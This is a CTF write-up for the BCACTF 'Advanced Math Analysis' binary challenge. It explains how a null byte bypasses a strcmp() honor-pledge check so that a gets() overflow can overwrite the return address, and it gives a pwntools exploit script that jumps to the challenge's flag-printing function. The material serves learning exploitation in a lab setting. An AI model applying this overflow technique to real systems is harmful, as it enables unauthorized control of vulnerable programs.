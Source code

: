 ```yaml
---
description: 'Buffer overflow, with a strcmp() check.'
---
```


# Advanced Math Analysis

## Problem

The advanced course covers the same content as the non-advanced course and then some. Specifically, it also teaches some units on logic and geometry.

Now, I'm personally not the biggest fan of geometry, so I'll spare you from that. But you'll definitely need to spend some time _logic_ing this challenge out!

## Solution

This is the same challenge as before, except there is a `strcmp()` check.

```c
char response[50];

setbuf(stdout, NULL);
setbuf(stdin, NULL);
setbuf(stderr, NULL);

...

gets(response);

if (strcmp(response, "i pledge to not cheat")) {
    puts("I'm sorry, but you did not type out the honor pledge.");
    puts("This obviously means that you are a cheater.");
    puts("And we certainly cannot have that.");
    puts("Goodbye.");
    exit(1);
}
```

Win function:

```c
void cheat() {
    FILE *fp = fopen("flag.txt", "r");
    char flag[100];

    if (fp == NULL) {
        puts("My bad, I can't find the answers.");
        puts("Oh wait, that's a foodable offense!");
        puts("[If you are seeing this on the remote server, please contact admin].");
        exit(1);
    }

    fgets(flag, sizeof(flag), fp);
    puts(flag);
}
```

Here, my tool wouldn't work due to the `strcmp()` check. `strcmp()` only returns 0 when both strings are equal, so it is checking that our input string is equal to `"i pledge to not cheat"`.

The flaw in this is that `strcmp()` only compares up to the point where either 

1. The strings differ, OR
2. A terminating null byte is reached.

In Linux, we can type a null byte using CTRL-@. This will bypass the `strcmp()` check.

![](../../.gitbook/assets/7c0faea58a8748108483ef9c20cf0adf.png)

Now, using our debugger, we can find the part of the pattern that overwrote the RIP.

![](../../.gitbook/assets/0b31eb81a9f74b698b659ea9c61525e9.png)

The offset is 50. However, note that this means 50 characters **after** the null byte.

![](../../.gitbook/assets/165b0bac7cc34606b00abb15c9b4834e.png)

Using redare2, we find that the address of the cheat function is 0x00401216.

![](../../.gitbook/assets/15391a2dd3bb4a2a9991dec7d53ba164.png)

```python
from pwn import *

ret = 0x00401216
offset = 50
payload = b"i pledge to not cheat"
payload += b"\x00"
payload += b"A" * offset
payload += p64(ret)
print(payload)

conn = remote('bin.bcactf.com', 49156)

print(conn.recv())
print(conn.recv())

print("\nSending payload...")
conn.send(payload + b"\n")

print(conn.recv())
print(conn.recv())

conn.close()
```

![](../../.gitbook/assets/a475e353d0ca43408079becc571ebfa9.png)

